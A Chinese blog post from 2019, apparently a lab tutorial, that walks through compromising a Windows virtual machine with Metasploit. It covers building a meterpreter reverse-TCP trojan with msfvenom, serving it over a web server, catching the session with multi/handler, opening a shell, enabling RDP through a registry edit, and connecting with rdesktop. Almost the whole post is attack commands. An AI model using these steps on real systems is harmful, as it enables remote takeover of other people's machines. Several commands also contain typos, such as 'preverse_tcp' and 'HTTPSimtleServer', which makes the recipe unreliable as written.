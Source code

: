```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-17
author:     张云
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。
msfconsole
2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。
msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe
3.接下来开启一个简单的web服务。
python HTTPSimtleServer 8080.
4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，
5.加载exp。
use exploit/multi/handler
6.设置payload。
set payload windows/meterpreter/preverse_tcp
set lhost '你的ip'
set lport '你的端口'
show options ‘这里查看参数是否都输入对了’。
run‘运行’
7.等待目标上线。
shell 控制目标终端。
8.输入以下命令打开对方3389远程桌面端口。
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
9.利用kali下的rdesktop，链接对方桌面。
rdesktop ‘目标ip’。
10.完成。
